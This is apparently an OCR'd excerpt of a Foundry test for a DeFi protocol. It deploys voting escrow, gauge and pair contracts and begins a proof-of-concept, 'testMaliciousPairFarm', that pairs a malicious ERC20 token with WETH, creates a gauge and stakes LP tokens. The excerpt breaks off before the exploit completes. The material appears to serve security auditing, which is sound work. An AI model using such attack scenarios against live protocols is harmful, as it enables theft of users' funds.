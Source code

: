 ```solidity
        mintStables();
        uint256[] memory amounts = new uint256[](3);
        amounts[0] = 2e25;
        amounts[1] = 1e25;
        amounts[2] = 1e25;
        mintFlow(owners, amounts);

        VeArtProxy artProxy = new VeArtProxy();
        escrow = new VotingEscrow(address(FLOW), address(flowDaiPair), address(artProxy), owners[0]);

        deployPairFactoryAndRouter();
        gaugeFactory = new GaugeFactory();
        bribeFactory = new BribeFactory();
        gaugePlugin = new GaugePlugin(address(FLOW), address(WETH), owners[0]);
        voter = new Voter(
            address(escrow),
            address(factory),
            address(gaugeFactory),
            address(bribeFactory),
            address(gaugePlugin)
        );

        escrow.setVoter(address(voter));
        factory.setVoter(address(voter));
        deployPairWithOwner(address(owner));
        deployOptionTokenWithOwner(address(owner), address(gaugeFactory));
        gaugeFactory.setOFlow(address(oFlow));

        factory.setFee(true, 2); // 2 bps = 0.02%
        deployPairWithOwner(address(owner));
        mintPairFraxUsdcWithOwner(payable(address(owner)));
    }

    // Create a new Pair
    // One of the tokens must be malicious
    // forge test --match-test testMaliciousPairFarm -vv
    function testMaliciousPairFarm() public {
        vm.startPrank(address(owner2));
        // WETH is whitelisted
        // gaugePlugin.whitelistForGaugeCreation(address(WETH)); // already done in setup

        MaliciousERC20 maliciousToken = new MaliciousERC20();

        // Create gauge and pool
        address newPool = factory.createPair(address(WETH), address(maliciousToken), false);
        address gauge = voter.createGauge(address(newPool), 0);

        // Setup malicious token and set ability to mint
        WETH.mint(address(owner2), 1e18);
        maliciousToken.mint(address(owner2), 1e18);
        maliciousToken.setPool(address(newPool));

        // Mint LP Position
        maliciousToken.transfer(newPool, 1e18);
        WETH.transfer(newPool, 1e18);
        IPair(newPool).mint(address(owner2));
        IERC20(newPool).approve(gauge, type(uint256).max);
        
        // Stake
        IDepositableGauge(gauge).deposit(IERC20(newPool).balanceOf(address(owner2)), 0);
        
        vm.stopPrank();
```